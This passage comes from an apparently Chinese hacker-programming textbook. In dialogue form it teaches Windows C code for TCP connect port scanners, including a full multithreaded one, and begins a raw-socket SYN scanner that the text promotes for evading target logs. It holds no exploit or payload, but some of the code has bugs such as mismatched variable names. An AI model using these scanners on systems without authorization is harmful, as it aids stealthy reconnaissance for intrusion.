    if (strstr(argv[2], "-"))
    {
        startport = atoi(argv[2]);
        for (; *p;)
            if (*(p++) == '-') break;
        endport = atoi(p);

        if (startport < 1 || endport > 65535)
        {
            printf("Port Error!\n");
            return 0;
        }
    }
    host = argv[1];     // 取得目标主机IP地址
    WSADATA ws;         // 初始化Socket
    SOCKET s;
    struct sockaddr_in addr;
    int result;
    long lresult;
    lresult = WSAStartup(MAKEWORD(2,2), &ws);
    addr.sin_family = AF_INET;
    addr.sin_addr.s_addr = inet_addr(host);
    start = clock();    // 开始计时
    for (int i = startport; i < endport; i++)
    {
        s = socket(AF_INET, SOCK_STREAM, 0);
        addr.sin_port = htons(i);
        if (s == INVALID_SOCKET) break;
        result = connect(s, (struct sockaddr*)&addr, sizeof(addr));
        if (result == 0)   // 根据返回值判断端口是否开放
        {
            printf("%s %d\n", host, i);
            closesocket(s);
        }
    } // end for
    end = clock();    // 计时结束
    costtime = ((float)(end - start)) / CLOCKS_PER_SEC;    // 转换时间格式
    printf("Cost time:%f second", costtime);    // 显示耗时
    WSACleanup();    // 退出前清理
}
```

“用上面代码编译出的 tcpscan.exe 的扫描结果如图 3－1。”

“晕！扫描端口从 100－500 用了 397.5 秒，差不多 1 秒 1 个端口，这样的速度怎能接受啊？”

我是良民抱怨道。

“就是嘛！如果所有端口扫描一次就要 65535 秒。唉！这样的扫描器没有存在价值啊！”冰眼也附和起来。

“此例只是让大家熟悉一下扫描器的设计。当然，这样的扫描器做出来是没用的。不过对于想学习编写扫描器的同学来说，是个不错的例子！大家放心吧，下节课为大家介绍比这个快 N 倍的扫描器！”

“这 N 不会等于 2 吧？”蓝狐狡黠地说道。

!@#￥%&……

“放心！这个 N 绝对大于 100！甚至可以上 500！”

“有这么快吗？”多多喵有点怀疑了。

“不信你就走着瞧！下堂课就为大家介绍！不要逃课哦！”

“OK！那我们明天就等着老师说的这个扫描器出世吧！”



图 3－1

### 3.1.2 多线程 connect 扫描器

- 前置知识：多线程、非阻塞连接
- 难度：中
- 编译环境：VC6.0 + Win2000
- 测试环境：Win2000 + ADSL



“大家认为昨天的扫描器怎样？呵呵！”

“不行！不行！这样的速度，扫描一台主机都要半个世纪了！”蓝狐说道。

“没那么夸张吧？什么环境？”马蜂窝充满疑惑。

“P4（奔四）2.0 + ADSL！”

“是啊！我等不及了！”多多喵也嚷道。

“好吧！大家不要吵了，马上就给大家介绍。这是一个多线程扫描器，之前给大家介绍过什么是多线程，现在你们猜猜这个扫描器是如何工作的？”

“嗯，根据我的理解，应该是把要扫描的端口个数平均分配到各个线程中去。例如扫描器开启 100 个线程，要扫描的端口个数是 10000 个，那么每个线程就分到 100 个端口。是不是这样？呵呵！”多多喵自信地说。

“嗯，这是比较直观的做法。但你应该知道，每个线程扫描的速度有快有慢，如果有一个线程工作得特别快呢？程序和人不同哦！如果你把 100 个端口分给一个线程，那么这个线程干完活后绝不会自动去帮助其它线程！”

“那么有什么好办法啊？谷大哥。”蓝狐问道。

“大家有没有想到什么好的解决办法？不要每次遇到问题就问我，自己先思考一下。”

“嗯！我想到了！”我是良民高兴地答道。

“是什么方法？快说说吧！”大家催促道。

“我们可以做个端口列表（或者一个贮存当前端口的变量），各线程不断地从端口列表中抢夺未扫描端口（或者各线程不断读取贮存当前端口的变量，之后令该变量自加 1），这样直至所有端口扫描完毕。这样应该行了吧？谷大哥？”我是良民说完后，等着审查结果。

“嗯，这个办法比前一个办法要好。但这里有个同步开销，即前面提到过的线程同步问题。最先的线程获得该端口变量的读取权限，那么这个线程未释放权限之前，其它线程就要不断地等待，这样会令最后一个线程花大量的时间来等待。这种方法也不高效。”

“唉，实在想不出什么好方法了，还是谷大哥你来说说吧！”大家一副无可奈何的样子。

“OK，下面就给大家讲解，注意听哦！方法是：主线程循环创建子线程，并检测当前子线程数是否大于用户设定的线程数，如果是，就等待一会儿而不重新创建线程。在等待过程中，扫描完某一个端口的子线程退出，令当前线程数目减少，那么主线程又开始创建线程。这种方法可使总线程数维持在一个范围内（但因为线程的创建需要时间，以及每个线程完成一个端口扫描的时间不同，所以总线程数不是固定的，但会在某个范围内）。而这些线程不用共享资源，没有同步开销，因为哪个线程扫描哪个端口是主线程创建子线程时利用参数传给子线程的。这样，程序的效率就会提高很多。但这种方法消耗的系统资源比前两种都要多。不过现在大家的机器都够快，内存这么大，这点也可以忽略的。”

“还是谷大哥的办法好！”蓝狐赞叹道。

“这样就可以比昨天的快 N 倍？”马蜂窝还是有点怀疑。

“嗯，还有个地方要给大家说说：这个扫描器利用了 Socket 的非阻塞连接。”

“什么是非阻塞连接啊？”冰眼问道。

“非阻塞连接也叫异步连接。Socket 有同步阻塞方式和异步非阻塞方式，事实上，同步和异步在我们编程的过程中可能遇到了很多，而 Socket 也没什么特别。同步好用，不费劲，但不能满足一些应用场合，其效率也很低。也许初涉编程的人不能理解‘同步’（或阻塞）和‘异步’（或非阻塞）。实际上，简单两句话就能讲清楚，同步和异步往往都是针对一个函数来说的。”

“继续啊！”马蜂窝催促道。

“‘同步’就是函数直到其要执行的功能全部完成时才返回；而‘异步’则是：函数仅仅做一”## 第三章 黑客编程实例

些简单的工作，然后马上返回，而它所要实现的功能留给别的线程或者函数去完成。当一个套接字处于阻塞模式（即同步操作）时，它的阻塞函数（这里指 `connect()` 函数）直到操作完成才会返回控制权。之所以称为阻塞，是因为此套接字的阻塞函数在完成操作返回前什么也不能做，这样就浪费了一部分时间在等待上。如果一个 Socket 处于非阻塞模式（即异步操作），则被调用函数会立即返回。

“那么跟扫描器有什么关系呢？”多多喵问道。

“我今天就给大家说说 `connect()` 的非阻塞连接。当 Socket 处于非阻塞模式下，调用 `connect()` 函数后，`connect()` 函数发出连接请求后会立刻返回，接着根据设定的超时时间，用 `select()` 函数来判断连接状态。这样，就比 `connect()` 函数等到真正连接后才返回的效率快些。”

“那我们如何把 Socket 设为非阻塞模式呢？”多多喵继续问道。

“缺省状态下，当套接字由 `socket()` 函数创建后，它将被自动设置为阻塞模式，即 `connect()`、`recv()`、`recvfrom()` 等调用将会暂停一个线程的执行，直至它接收到一个数据报。如果要把 Socket 设置为非阻塞模式，就要用到 `ioctlsocket()` 函数。判断远程端口是否开放要用到 `select()` 函数。”

```c
ioctlsocket()

函数 ioctlsocket() 可把一个套接字设为非阻塞模式，其函数原型为：

int PASCAL FAR ioctlsocket(SOCKET s, long cmd, u_long FAR* argp);

部分参数释义：

s：一个标识套接口的描述字，即 sock 句柄
cmd：对套接口 s 的操作命令
argp：指向 cmd 命令所带参数的指针
```

“以下的例子把一个 Socket 设置为非阻塞模式：”

```c
//------------------------------
// 初始化 Winsock
WSADATA wsaData;
int iResult = WSAStartup(MAKEWORD(2,2), &wsaData);
if (iResult != NO_ERROR)
    printf("Error at WSAStartup()\n");

//------------------------------
// 建立一个 SOCKET 对象
SOCKET socket;
socket = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
if (socket == INVALID_SOCKET) {
    printf("Error at socket(): %d\n", WSAGetLastError());
    WSACleanup();
    return;
}

//------------------------------
// 设置 socket I/O 模式

// 如果 iMode = 0, socket 为阻塞模式
// 如果 iMode != 0, socket 为非阻塞模式
u_long iMode = 0;
ioctlsocket(socket, FIONBIO, &iMode);
```

**select()**

当要使用 `select()` 函数时，必须先调用 `ioctlsocket()`。`select()` 函数允许应用程序在等待一个事件发生时检测一组套接字的状态。

```c
// select() 的函数原型为：
int select(int nfds, fd_set* readfds, fd_set* writefds, fd_set* exceptfds, const struct timeval* timeout);
```

“下面举个例子：如何用 `select()` 判断目标端口是否开放。”

```c
.........
TIMEVAL timeout;
FD_SET mask;

//-----------------------------
connect(sock, (struct sockaddr *)&addr, sizeof(addr));
timeout.tv_usec = 0;
timeout.tv_sec = 1;   // 设置连接超时，这里为 1 秒
FD_ZERO(&mask);
FD_SET(sock, &mask);
int value = select(0, NULL, &mask, NULL, &timeout);

//-----------------------------
// select() 返回值可以为 -1, 0, 1
// 返回值为 -1 时表示 select() 错误，可能是由于参数设置不正确引起的
//        0 表示连接超时
//        1 表示连接成功
//-----------------------------
if (value == 0 || value == -1)   // 连接不上端口
{
    closesocket(sock);
    return 0;
}
else {
    printf("Connect OK");
    closesocket(sock);
}
```

“上面的例子是把一个 Socket 设为非阻塞模式。下面再为大家介绍一下程序的大概流程：”

```text
main()
{
初始化
for()
{
如果当前线程数大于某个值就 Sleep(10) 等待
循环创建线程
}
等待线程结束
清理退出
}
```

“每个线程里利用非阻塞连接，当 `connect()` 函数返回后，利用 `select()` 函数来判断端口状态。这样的解释大家应该都会明白吧？”

“明白！这里主要就是用到多线程和 Socket 的非阻塞连接吧？听起来也不难。我们要看看源代码，方便学习啊！”我是良民说道。

“下面给出整个程序的代码。”

```cpp
/************************************************************
gscan.cpp
多线程 tcp connect 扫描器
E-mail:gxisone@hotmail.com
最后更新: 2004/8/5
************************************************************/
#include <stdio.h>
#include <winsock2.h>
#include <time.h>
#pragma comment(lib,"ws2_32.lib")

char *host;
int threadnum/*当前线程数*/, maxthread/*最大线程数*/, totalport/*总端口数*/;
long rowport;    // 当前端口号
TIMEVAL timeout;
FD_SET mask;

void usage(char *name)
{
    printf("\t==================Portscan==================\n");
    printf("\t===========gxisone@hotmail.com  2004/7/6========\n");
    printf("\tusage: %s IP StartPort-EndPort MaxThread(1000)\n", name);
    printf("\tExample: %s 192.168.1.1 1-10000 500\n", name);
}

void display(void)   // 定义状态提示函数
{
    static int play = 0;

    // 进度条
    char *plays[12] =
    {
        "|", "/", "-", "\\",
        "|", "/", "-", "\\",
        "|", "/", "-", "\\"
    };

    printf("=%s=\t%d threads %d %s Completed.\r",
        plays[play], threadnum, nowport * 100 / (totalport + 1), "%");   // 显示进度和线程数
    play = (play == 11) ? 0 : play + 1;
    Sleep(1);
}

void WaitThreadEnd(void)
{
    Sleep(1000);
    printf("\nThread ending......\n");
    while (threadnum > 0)
    {
        Sleep(1);
        printf(" =\t%d threads \r", threadnum);
    }
    printf("\nThread ended!\n");
}

DWORD WINAPI ThreadFunc(LPVOID lp)    // 扫描线程函数
{
    int port = *(DWORD*)lp;   // 取得要扫描的端口号
    SOCKET sock;
    struct sockaddr_in addr;

    u_long value;
    addr.sin_family = AF_INET;

    addr.sin_addr.s_addr = inet_addr(host);
    value = 1;
    sock = socket(AF_INET, SOCK_STREAM, 0);
    if (sock == INVALID_SOCKET)
    {
        printf("Socket error!\n");
        InterlockedExchangeAdd((long *)&threadnum, -1);  // 线程数减 1
        return 0;
    }

    ioctlsocket(sock, FIONBIO, &value);  // 把 sock 设为非阻塞模式
    addr.sin_port = htons(port);

    connect(sock, (struct sockaddr *)&addr, sizeof(addr));  // 连接测试
    FD_ZERO(&mask);
    FD_SET(sock, &mask);
    value = select(0, NULL, &mask, NULL, &timeout);

    if (value == 0 || value == -1)
    {
        closesocket(sock);  // 关闭 sock 连接
        Sleep(50);
        InterlockedExchangeAdd((long *)&threadnum, -1);
        return 0;
    }
    else
    {
        shutdown(sock, 0);  // 阻止 socket 接收和发送数据
        printf("\t\t\tFound port %d open.\r\n", port);  // 打印扫描到的端口
        closesocket(sock);
        Sleep(50);
        InterlockedExchangeAdd((long *)&threadnum, -1);
    }
    return 0;
}

void main(int argc, char **argv)
{
    WSADATA ws;
    char *p;
    int startport, endport;
    clock_t start, end;  // 程序运行的起始和结束时间
    float costtime;      // 程序耗时

    if (argc != 4)  // 判断参数是否为 4 个
    {
        usage(argv[0]);
        return;
    }

    long lresult;
    lresult = WSAStartup(MAKEWORD(2,2), &ws);

    p = argv[2];   // 处理端口参数，取得开始和结束端口的通用代码
    if (strstr(argv[2], "-"))
    {
        startport = atoi(argv[2]);
        for (; *p;)
            if (*(p++) == '-') break;
        endport = atoi(p);

        if (startport < 1 || endport > 65535)
        {
            printf("Port Error!\r\n");
            return;
        }
    }

    host = argv[1];
    // 取得最大线程数，如果大于 1000，则最大线程数为 1000
    maxthread = (atoi(argv[3]) - 1 > 999) ? 999 : atoi(argv[3]) - 1;
    usage(argv[0]);

    // 设置连接超时，如果线程数大于 500，则超时为两秒
    timeout.tv_usec = 0;
    if (maxthread > 500) timeout.tv_sec = 2;
    else timeout.tv_sec = 1;

    start = clock();   // 开始计时
    totalport = endport - startport;   // 计算总端口数量

    for (int port = startport; port < endport; port++, nowport++, threadnum++)
    {
        display();   // 显示进度
        while (threadnum > maxthread) Sleep(10);   // 当线程数大于最大线程数就等待一会儿
        CreateThread(NULL, 0, ThreadFunc, &port, 0, NULL);   // 创建扫描线程
    }

    end = clock();   // 计时结束
    costtime = (float)(end - start) / CLOCKS_PER_SEC;   // 转换时间格式
    printf("Cost time:%f Sec", costtime);   // 显示耗时
    printf("\n\n");

    WaitThreadEnd();  // 等待所有线程结束

    WSACleanup();
    return;
}
```

“好了，一个多线程 `connect()` 的 TCP 扫描器就介绍完了。”

“我们编译一下看看效果如何！”我是良民高兴地说。

“呵呵，大家回去就试试吧！另外，本程序只是作为编写扫描器的示例，而且只是对单一 IP 的端口扫描。大家可以自己动手改进为 IP 段的扫描器，只需在端口循环外再加一个 IP 循环就 OK 了。另外，还可把经常扫描的端口做成一个数组，这样就可有更多的选择空间了。希望大家能从这堂课中掌握到编写扫描的常用技巧，下节课将为大家介绍更高级的 SYN 扫描器，大家将会学到更多的扫描技术。”

“哇！太好了！SYN 扫描，高级扫描技巧啊！会不会很难啊？”马蜂窝担心地说。

“不会很难的，我会尽量给大家讲解清楚。再透露一个消息，这个 SYN 扫描器比今天介绍的多线程扫描器还要快哦！更重要的是，这个 SYN 扫描器用的只是两个线程。大家等着瞧吧！”

“好的！希望明天应该更精彩！”冰眼说道。

“OK，大家就明天见吧！”

#### 3.1.3 打造极速 SYN 扫描器





“好了，今天是扫描器编程的最后一节课，也是最精彩的一节课了。今天给大家讲解 SYN 扫描器的原理和实现，先给大家看几张图片（是在我机器上测试的），如图 3-2、图 3-3、图 3-4。”





“大家看出什么来了吗？”

“图 3-3 是 Superscan 的截图，图 3-4 是 nmap 的截图，图 3-2 应该是谷大哥机器的扫描器截图吧？”蓝狐答道。

“大家再仔细点儿看，留意一下扫描所用的时间（8000-8301 是 ICHAT 开放的端口）。”

“Superscan 是 31 秒，nmap 是 36.552 秒，而谷大哥的机器是 20.92 秒！很快啊！”蓝狐脱口而出。

“真的也？比大名鼎鼎的 nmap 还要快一半！甚至比 Superscan 也要快 10 秒多呢！”马蜂窝说道。

“没错！这就是今天我要介绍的 SYN 扫描器。”

“谷大哥，请问 SYN 扫描器跟我们之前学的扫描器有什么不同吗？”冰眼问道。

“传统的 TCP 扫描器（即我们之前介绍的扫描器）是直接尝试与目标主机进行连接，来判断目标主机端口的开放，每个端口都会尝试连接一次。而 SYN 扫描没有与目标主机进行连接，其原理只利用建立连接的第一步（建立 TCP 原理的第一步，每个 TCP 连接有三次‘握手’）：先向目标主机的某一端口发送一个 `flag=2` 的标志，以请求连接。如果目标主机该端口开放，就会返回一个 `ACK=18` 的标志，表示可以连接。如果目标主机该端口关闭，就会返回一个 `RST` 标志（`flag=20`）。我们只要根据这个返回的标志就可判断远端端口的开放情况。”

“也就是说传统的扫描器是经历了三次握手，而 SYN 扫描器只经历了一次握手，这样就缩短了扫描时间。”我是良民说道。

“对！就是这个道理。另外，传统的 TCP `connect()` 扫描有其明显的缺点：会在目标主机上留下大量日志（里面包含你的 IP 地址），这样就不能很好地隐藏自己的踪迹。而 SYN 扫描器由于没有真正建立连接，这样就可躲过许多日志软件的记录（当然不能是全部，如果别人安装了嗅探器就能找出你的 IP）。”

“请问如何编写 SYN 扫描器呢？”

“嗯，编写 SYN 扫描器最重要的是要构造 SYN 数据包并发送。其基本原理如下：”

**编写 SYN 扫描器的基本原理：**

- 1. 建立一个原始套接字，用来发送原始报文。我们要先把自己的 IP 填进 IP 头，构造好带有 SYN 标志的包，发送到目标主机。
- 2. 同样建立一个原始套接字，用来接收目标主机返回的报文，其实就是一个 Sniffer。然后根据读取到的报文结构中的 flag 标志，判断目标主机端口的开放情况。


“我以前写过一个 SYN 扫描器，但该扫描器只是一个主线程在工作，发送数据包和接收数据包的工作在同一线程中进行。每次构造好正确的 SYN 包并发送后，要等待接收数据包的函数接收到数据后才进入下一轮探测，这样效率就会明显降低。经过改进，此次介绍的 SYN 扫描器启动一个独立的监听线程，用来监听返回的 SYN 包并分析。主线程只是不断地构造 SYN 包并发送，完全不用等待监听线程里接收数据的情况。单纯构造数据包的速度非常快，所以这次介绍的扫描器算得上极速扫描器了。”

“具体有多快？”马蜂窝问道。

“如果单单让主线程不断构造和发送 SYN 数据包，那么在较快的机器上不用 1 秒就可发送 1-65535 端口的数据报了。”

## 第三章 黑客编程实例

“不用 1 秒钟就可发送所有端口的数据包？这不是说不用 1 秒就可扫描完一台主机的所有端口吗？简直不可思议！”冰眼惊讶地说。

“啊啊！虽然我们发送数据包的速度很快，但由于网络延时，发出的数据包不能立刻到达目标主机，目标主机也不能立刻返回数据，监听线程接收数据的速度会跟不上，这就会造成扫描结果不准确，会漏掉很多返回数据。所以，在发送数据包时要用 Sleep() 函数作一定的延时。”

“那我们怎样来构造 SYN 数据包呢？”多多喵问道。

“我有个好主意！”我是良民说，“前面谷大哥不是给我们说过 connect() 函数可以用异步模式吗？既然一个 connect() 连接包含了三次握手，那么我们只利用第一步不就行了？”

看来我是良民的悟性挺高，挺有创新能力的。“嗯，关于发送 SYN 包的问题，我认为既然一个连接必须经过三次握手，即利用 connect() 函数，其内部也应该是通过构造 SYN 数据来发送的，只不过这些实际代码写成了一个函数罢了（这只是我的个人观点，未经考证，如有错误请大家指正）。”

“那么究竟怎样构造数据包呢？”多多喵问道。

“在这里，我们需要掌握 Socket raw 编程。”

### 小知识：Socket raw

Socket raw 就是原始套接字。通过原始套接字，我们可更加自如地控制 Windows 下的多种协议，而且能对网络底层的传输机制进行控制。例如我们编写 ICMP ping 程序，就要自己来构建 ICMP 数据包。Socket raw 编程就是自己来构建数据包并发送。


“好了，我们还是通过下面的代码来讲解吧。”

```c
#include <winsock2.h>
#include <ws2tcpip.h>
#include <stdio.h>
#include <time.h>      // 计时用到的头文件
#include "mstcpip.h"
#pragma comment(lib, "ws2_32.lib")   // winsock 程序必须用到的库文件
#define SEQ 0x28376839   // 自定义数据包的序列号

SOCKET sockRaw = INVALID_SOCKET;      // 发送数据的 sock 句柄
SOCKET sockListen = INVALID_SOCKET;   // 接收数据的 sock 句柄
struct sockaddr_in dest;              // 目标主机地址结构

BOOL ScanOK = FALSE;                  // 扫描是否结束
char *DEST_HOST;                      // 保存命令行下的目标主机 IP
int DEST_PORT;                        // 开始扫描的端口
int DEST_PORTEND;                     // 结束端口
int play = 0;                         // 用于进度显示
clock_t start, end;                   // 程序运行的起始和结束时间
float costtime;                       // 程序耗时
```

